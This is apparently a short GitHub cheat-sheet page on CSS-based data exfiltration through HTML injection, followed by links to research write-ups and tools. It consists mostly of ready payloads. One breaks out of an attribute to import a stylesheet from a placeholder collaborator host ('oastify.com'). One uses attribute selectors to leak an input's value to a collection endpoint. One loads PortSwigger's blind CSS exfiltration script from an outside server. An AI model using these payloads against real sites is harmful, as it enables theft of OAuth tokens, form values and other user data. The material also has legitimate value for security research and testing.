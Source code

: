 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
- https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
- https://github.com/VoorivexTeam/CSS-Exfiltration/tree/main
- https://portswigger-labs.net/blind-css-exfiltration/start
- https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b
